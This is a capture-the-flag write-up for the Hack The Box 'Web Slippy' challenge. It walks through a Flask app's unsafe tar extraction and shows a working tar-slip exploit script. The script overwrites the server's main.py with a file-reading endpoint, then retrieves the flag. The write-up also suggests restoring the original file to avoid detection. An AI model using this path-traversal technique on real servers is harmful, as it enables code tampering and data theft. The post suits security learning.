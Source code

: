 ```yaml
---
title: "HTB UNI CTF : Web Slippy"
date: 2021-11-22T15:16:32-05:00
tags:
    - Hack The Box
---
```



![](/web_slippy/ChallengeDescription.png)


## Analyze
For this challenge we were given the source file of the site, looking at the website we can see that it wants a tar.gz file as the input.

![](/web_slippy/Website.png)

The directory tree of the source code as follow.

```
./challenge
├── application
│   ├── blueprints
│   │   └── routes.py
│   ├── config.py
│   ├── main.py
│   ├── static
│   │   ├── archives
│   │   ├── css
│   │   │   ├── bootstrap.min.css
│   │   │   └── main.css
│   │   ├── images
│   │   │   ├── card-body2.png
│   │   │   ├── card-btm2.png
│   │   │   ├── card-top2.png
│   │   │   └── upload-doc.png
│   │   └── js
│   │       ├── bootstrap.min.js
│   │       ├── jquery-3.6.0.min.js
│   │       ├── main.js
│   │       └── TweenMax.min.js
│   ├── templates
│   │   └── index.html
│   └── util.py
├── flag
└── run.py
```

We can see that the flag file is in the same directory as the run.py

So I am assuming that we have to figure out a way to read the flag file.

***Util.py***
```
import functools, tarfile, tempfile, os
from application import main

generate = lambda x: os.urandom(x).hex()

def extract_from_archive(file):
    tmp  = tempfile.gettempdir()
    path = os.path.join(tmp, file.filename)
    file.save(path)

    if tarfile.is_tarfile(path):
        tar = tarfile.open(path, 'r:gz')
        tar.extractall(tmp)

        extractdir = f'{main.app.config["UPLOAD_FOLDER"]}/{generate(15)}'
        os.makedirs(extractdir, exist_ok=True)

        extracted_filenames = []

        for tarinfo in tar:
            name = tarinfo.name
            if tarinfo.isreg():
                filename = f'{extractdir}/{name}'
                os.rename(os.path.join(tmp, name), filename)
                extracted_filenames.append(filename)
                continue

            os.makedirs(f'{extractdir}/{name}', exist_ok=True)

        tar.close()
        return extracted_filenames

    return False
```

This is the code that is used to extract the given tar file.

Let's examine this code a bit further.

```
generate = lambda x: os.urandom(x).hex()
```
It is used to generate a random number of the length x. Another way of writing this would be.

```
def generate(x):
	return os.urandom(x).hex()

```

```
		extractdir = f'{main.app.config["UPLOAD_FOLDER"]}/{generate(15)}'
        os.makedirs(extractdir, exist_ok=True)
```

So here they use the generate to create a new folder to avoid files to collide when they have same name.


```
➜  application git:(main) ✗ cat config.py

from application.util import generate
from os.path import abspath

class Config(object):
    SECRET_KEY = generate(50)
    UPLOAD_FOLDER = '/app/application/static/archives'

class ProductionConfig(Config):
    pass

class DevelopmentConfig(Config):
    DEBUG = True

class TestingConfig(Config):
    TESTING = True

```

We can see that the tar file gets extracted at path `/app/application/static/archives/{somerandom}/`

We also know that the flag is at `/app/`


## Recon

https://bugzilla.redhat.com/show_bug.cgi?id=263261

By searching up on the internet, I found this cool bug in the tar file library in python.

After reading this for the first time, I thought I could use the `../../../flag` as my file name and the download the flag. Seems pretty simple right?

Well Not really.

The ```os.rename()``` overrides the existing file in the directory.

## Exploit

For the exploit, I thought of overriding the `main.py` file and adding a API endpoint that opens the flag and returns it.

```
rom flask import Flask, jsonify
from application.blueprints.routes import web, api

app = Flask(__name__)
app.config.from_object('application.config.Config')

app.register_blueprint(web, url_prefix='/')
app.register_blueprint(api, url_prefix='/api')

@app.errorhandler(404)
def not_found(error):
    return jsonify({'error': 'Not Found'}), 404

@app.errorhandler(403)
def forbidden(error):
    return jsonify({'error': 'Not Allowed'}), 403

@app.errorhandler(400)
def bad_request(error):
    return jsonify({'error': 'Bad Request'}), 400

@app.route('/flag')
def flag():
    file = open('/app/flag', 'r')
    return f.read()
```
This is what the new main file will look like.

If we wanted to be undetected, we can upload the actual main.py file after we get the flag, so that they won't figure out where we got the flag from.



```
import tarfile, requests

zpath = "../../../main.py"


tf = tarfile.open("payload.tar.gz", "w:gz")
tf.add('main.py', zpath)
tf.close()



url = "http://64.227.36.32:32187/api/unslippy"

files = {"file": open('payload.tar.gz', 'rb')}

r = requests.post(url, files=files)

flag = requests.get("http://64.227.36.32:32187/flag")

print(flag.text)
```

I wrote a simple script that will take the main.py file and add directory trasverasl stuffs infront of the file, and creates a tar.gz file.

Then it will upload the file to the server, later it will use the /flag endpoint to extract the flag.

```
HTB{i_slipped_my_way_to_rce}
```

